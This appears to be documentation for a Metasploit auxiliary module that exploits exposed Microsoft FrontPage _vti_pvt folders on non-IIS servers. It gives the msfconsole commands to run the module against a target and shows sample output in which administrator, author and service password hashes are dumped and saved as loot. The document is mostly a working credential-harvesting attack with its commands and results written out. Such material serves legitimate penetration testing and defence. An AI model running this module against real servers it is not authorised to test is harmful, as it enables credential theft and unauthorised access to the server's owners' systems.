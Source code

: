 ## Description
When Microsoft FrontPage is run on a non-IIS web server it creates encrypted password files in the _vti_pvt folder. When this folder is accessible, these files can be downloaded and parsed to obtain encrytped passwords. These encrypted passwords can then be cracked offline and used to gain further access to the server.

Affected Files:

 * administrators.pwd
 * authors.pwd
 * service.pwd

Citations:
 * https://msdn.microsoft.com/en-us/library/cc750050.aspx
 * http://sparty.secniche.org/

## Usage
```
use auxiliary/scanner/http/frontpage_credential_dump
set RHOSTS 10.10.10.10
set TARGETURI about
run
```

## Standard Output
```
msf auxiliary(scanner/http/frontpage_credential_dump) > run

[+] 10.10.10.10 - service.pwd
[+] 10.10.10.10 - administrators.pwd
[+] 10.10.10.10 - authors.pwd

FrontPage Credentials
=====================

 Source          Username    Password Hash
 ------          --------    -------------
 Administrators  e-scan.com  xMyvw4d3c1oWY
 Authors         e-scan.com  xMyvw4d3c1oWY
 Service         e-scan.com  jLAsITPJ8AsaR

[*] Credentials saved in: /root/.msf4/loot/20180921124147_default_10.10.10.10_frontpage.creds_096592.txt

```

## Verbose Output
```
msf auxiliary(scanner/http/frontpage_credential_dump) > run

[*] Requesting: /about/_vti_pvt/service.pwd
[*] Found /about/_vti_pvt/service.pwd.
[*] Found FrontPage credentials.
[+] 10.10.10.10 - service.pwd
[*] Requesting: /about/_vti_pvt/administrators.pwd
[*] Found /about/_vti_pvt/administrators.pwd.
[*] Found FrontPage credentials.
[+] 10.10.10.10 - administrators.pwd
[*] Requesting: /about/_vti_pvt/authors.pwd
[*] Found /about/_vti_pvt/authors.pwd.
[*] Found FrontPage credentials.
[+] 10.10.10.10 - authors.pwd

FrontPage Credentials
=====================

 Source          Username    Password Hash
 ------          --------    -------------
 Administrators  e-scan.com  xMyvw4d3c1oWY
 Authors         e-scan.com  xMyvw4d3c1oWY
 Service         e-scan.com  jLAsITPJ8AsaR

[*] Credentials saved in: /root/.msf4/loot/20180921124828_default_10.10.10.10_frontpage.creds_090555.txt
```
